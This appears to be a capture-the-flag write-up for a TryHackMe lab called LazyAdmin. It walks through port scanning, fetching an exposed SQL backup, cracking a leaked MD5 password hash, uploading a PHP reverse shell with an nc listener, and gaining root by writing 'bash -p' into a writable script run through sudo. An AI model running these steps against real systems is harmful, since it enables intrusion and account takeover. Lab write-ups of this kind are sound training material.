 We started with a port scan using Nmap:

![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/LazyAdmin/Images/nmap.png?raw=true)

Open Ports:
- 22 SSH
- 80 HTTP

We began by fuzzing the website and discovered the directory /content.
Fuzzing further from the discovered directory, we found multiple subdirectories.

![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/LazyAdmin/Images/fuzz1.png?raw=true)

![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/LazyAdmin/Images/fuzz2.png?raw=true)

There is a login form at http://10.10.244.177/content/as/

There is also an interesting list of files available at http://10.10.244.177/content/inc/

The admin of the website has allowed directory listing when it should not be allowed.

The most interesting file is mysql_backup_20191129023059-1.5.1.sql

We can download the file directly using the command :
```
wget http://10.10.244.177/content/inc/mysql_backup/mysql_backup_20191129023059-1.5.1.sql
```
Upon inspection, we found a hash and a username:

- Hash: 42f749ade7f9e195bf475f37a44cafcb
- Username: manager

![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/LazyAdmin/Images/creds-file.png?raw=true)

We can decrypt the hash using CrackStation. It’s the MD5 hash of the password Password123.

Using these credentials, we can log in at http://10.10.244.177/content/as/

Next, we want to upload a reverse shell to execute commands on the target system.

We can upload the PHP reverse shell from https://github.com/pentestmonkey/php-reverse-shell/ here : 

![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/LazyAdmin/Images/revshell.png?raw=true)

We start our listener on our local machine with :

```
nc -lvnp 1234
```

We can trigger our reverse shell by navigating to http://10.10.244.177/content/inc/ads/ and clicking on our uploaded file.

To obtain the user flag, go to /home/itguy and run :
```
cat user.txt
```
![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/LazyAdmin/Images/user-flag.png?raw=true)


Next, we run sudo -l, which shows that we can run /home/itguy/backup.pl as root.

This file is essentially running /etc/copy.sh.

![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/LazyAdmin/Images/sudoL.png?raw=true)


We check the permissions of /etc/copy.sh and see that we have write access to the file.

All we need to do is add bash -p (which spawns a bash session in privileged mode) to /etc/copy.sh. 

This command will be executed as root when we run :
```
sudo /usr/bin/perl /home/itguy/backup.pl
```
Here’s how to do it :
```
echo "bash -p" > /etc/copy.sh
```
Then execute :
```
sudo /usr/bin/perl /home/itguy/backup.pl
```
Now, we are root and can obtain the root flag.

```
cat /root/*
```
![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/LazyAdmin/Images/root-flag.png?raw=true)


VOILA ! 
